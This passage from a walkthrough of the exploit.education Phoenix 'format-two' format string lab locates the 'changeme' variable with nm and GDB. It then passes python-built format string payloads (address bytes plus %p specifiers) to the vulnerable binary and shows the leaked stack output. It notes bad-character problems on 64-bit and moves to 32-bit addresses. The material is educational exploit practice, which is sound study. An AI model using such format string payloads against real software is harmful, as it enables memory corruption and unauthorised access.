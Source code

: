 or try listing variables in GDB using  ```info variables```

or try using ```nm``` to read symbols,

```c
user@phoenix-amd64:~$ nm format-two  | grep changeme
0000000000600af0 B changeme
```

Our ```changeme``` is at ```0x600af0```

Lets try to point our 12th offset with this from input,

```c
user@phoenix-amd64:~$ ./format-two $(python -c 'print "\xf0\x0a\x60" + "%p"*11 + "%p"')
Welcome to phoenix/format-two, brought to you by https://exploit.education
�etter luck next time!


user@phoenix-amd64:~$ ./format-two $(python -c 'print "\xf0\xaa\x60" + "%p"*11 + "%p"')
Welcome to phoenix/format-two, brought to you by https://exploit.education
�00x500x7fffffffe59b0x7fffffffe53f0x7fffffffe5800x7fffffffe5800x7fffffffe6800x4007050x7fffffffe6d80x2004003680x257025702560aaf0Better luck next time!

```

But the problem is you cannot pass null bytes and bad chars into input as address (Here ```\x0a``` is a bad char)

So we could not execute it correctly,it leads to ```segmentation fault``` or errors

So lets try it on 32 bit,

For address of ```changeme``` in 32bit:

```c
(gdb) info variables
All defined variables:

Non-debugging symbols:
0x080486c4  __GNU_EH_FRAME_HDR
0x08048724  __EH_FRAME_BEGIN__
0x0804876c  __FRAME_END__
0x08049770  __CTOR_LIST__
0x08049774  __CTOR_END__
0x08049778  __DTOR_LIST__
0x0804977c  __DTOR_END__
0x08049780  _DYNAMIC
0x08049820  _GLOBAL_OFFSET_TABLE_
0x08049844  __dso_handle
0x08049848  __TMC_END__
0x08049848  __bss_start
0x08049848  _edata
0x08049848  completed
0x0804984c  dtor_idx
0x08049850  object
0x08049868  changeme
0x0804986c  _end
```
